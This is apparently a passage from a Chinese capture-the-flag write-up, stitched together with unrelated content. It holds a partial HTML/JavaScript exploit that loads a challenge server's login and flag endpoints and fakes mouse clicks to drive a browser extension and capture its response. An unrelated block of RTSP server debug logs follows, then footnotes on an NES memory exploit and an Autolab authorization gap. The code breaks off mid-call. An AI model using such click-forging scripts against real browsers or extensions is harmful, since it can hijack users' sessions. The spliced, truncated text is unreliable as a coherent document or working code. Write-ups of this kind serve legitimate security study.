 ```javascript
window.addEventListener("sendDataToContentScript", (event) => {
    console.log(event.detail.message);
    document.title = event.detail.message;
});
```

有了这些，剩下的就是创建两个 `<img>`，分别指向 `/login` 和 `/send_flag`，模拟点击发送请求，等待捕获响应即可。

```html
<img
  src="http://127.0.1.14:1919/login"
  id="login"
  style="width: 40%; height: 40%" />
<img
  src="http://127.0.1.14:1919/send_flag"
  id="flag"
  style="width: 40%; height: 40%" />

<script>
  window.addEventListener("sendDataToContentScript", (event) => {
    console.log(event.detail.message);
    document.title = event.detail.message;
  });

  // https://gist.github.com/huozhi/a3fff09c02c93e4e8f7cfa6ba3f5994e
  const mouseEventOf = (eventType) => (element, x, y) => {
    const rect = element.getBoundingClientRect();

    const event = new MouseEvent(eventType, {
      view: window,
      bubbles: true,
      cancelable: true,
      clientX: rect.left + x,
      clientY: rect.top + y,
    });
    element.dispatchEvent(event);
  };

  function clickOnElement(element, x, y) {
    mouseEventOf("click")(element, x, y);
  }

  function hoverOnElement(element, x, y) {
    mouseEventOf("mousemove")(element, x, y);
    // mouseEventOf('mouseover')(element, x, y)
  }

  async function login() {
    hoverOnElement(document.getElementById("login"), 10, 10);
    await new Promise((r) => setTimeout(r, 200));
    const button = document.evaluate(
      "//*[text()='找淘宝同款']",
      document,
      null,
      XPathResult.FIRST_ORDERED_NODE_TYPE,
      null
    ).singleNodeValue;
    clickOnElement(button, 10, 10);
    await new Promise((r) => setTimeout(r, 1000));
    clickOnElement(
      document.getElementById("chrome_pc_imgSearch_leftWrapper").children[0]
        .children[0].children[0],
      5,
```

[2024:09:30:17:14:26]: Debug: handle_read_encrypted_header(): Handle read of size: 24 bytes
[2024:09:30:17:14:26]: Debug: handle_read_encrypted(): Handle read of size: 206 bytes
[2024:09:30:17:14:26]: Debug: type [REQUEST]
[2024:09:30:17:14:26]: Debug: sequence number [4]
[2024:09:30:17:14:26]: Debug: protocol :: RTSP/1.0
[2024:09:30:17:14:26]: Debug: payload :: 
[2024:09:30:17:14:26]: Debug: command :: SETUP
[2024:09:30:17:14:26]: Debug: target :: streamid=video/0/0
[2024:09:30:17:14:26]: Debug: CSeq :: 4
[2024:09:30:17:14:26]: Debug: X-GS-ClientVersion :: 14
[2024:09:30:17:14:26]: Debug: Host :: 0.0.0.0
[2024:09:30:17:14:26]: Debug: Session :: DEADBEEFCAFE
[2024:09:30:17:14:26]: Debug: Transport :: unicast;X-GS-ClientPort=50000-50001
[2024:09:30:17:14:26]: Debug: If-Modified-Since :: Thu, 01 Jan 1970 00:00:00 GMT
[2024:09:30:17:14:26]: Debug: ---Begin MessageBuffer---
[2024:09:30:17:14:26]: Debug: ---Begin Response---
[^mario-initial-mem]: 实际为 `$016B-$01A6`，`$016B-$0180` 是一段读手柄输入的 subroutine（因为转成 FCEUX 的录像后有几帧的偏移，种种原因导致并不能直接工作），`$0181-$01A6` 就是原文中所述按手柄输入写入 / 跳转至任意内存的逻辑，[这是一段 Cluade 的分析](https://claude.site/artifacts/11753798-1662-4def-9556-734a0f4d48d3)。
[^mario-jump-pc]: 实际为 `$1181`，但 [`$1000–$17FF` 是 `$0000–$07FF	` 的 Mirror](https://www.nesdev.org/wiki/CPU_memory_map)。
[^nes-vblank]: 在 NES 中，`VBlank` 是当前帧的最后一行已经渲染完毕后一小段 PPU 的空闲时间，正好可以在这里被用来对齐输入到帧。这段时间只有 2,387 CPU cycles，但对我们的简单代码来说足够了。
[^reset-apu-ppu]: 即击败库巴后的第一段输入，写入到 `$0300` 后的部分，这里有 [Claude 给出的注释](https://claude.site/artifacts/27cd39b9-02df-48cd-b733-bed11c8d3376)。
[^nametable-addr]: `$20A4` 是我调了半天终于渲染出东西时随便选的地址，并不需要按这个来（
[^not-difficult]: 其实我是先猜 `_` 然后找对应的 Tile ID 再比较的，也能工作不是吗（
[^autolab-user]: 这页面还有 `EDIT INFORMATION` 的按钮，感觉是鉴权给忘了？
[^autolab-email]: 感觉这个造的不好，因为 Autolab 的开发者也是这个邮箱，所以你其实在其他页面也能看到。
[^debugger-check-with-width]: 但是如果你开了侧边栏（比如 Arc 的那个），也有大概率会被干掉，因为他检查的最大值是 `160px`。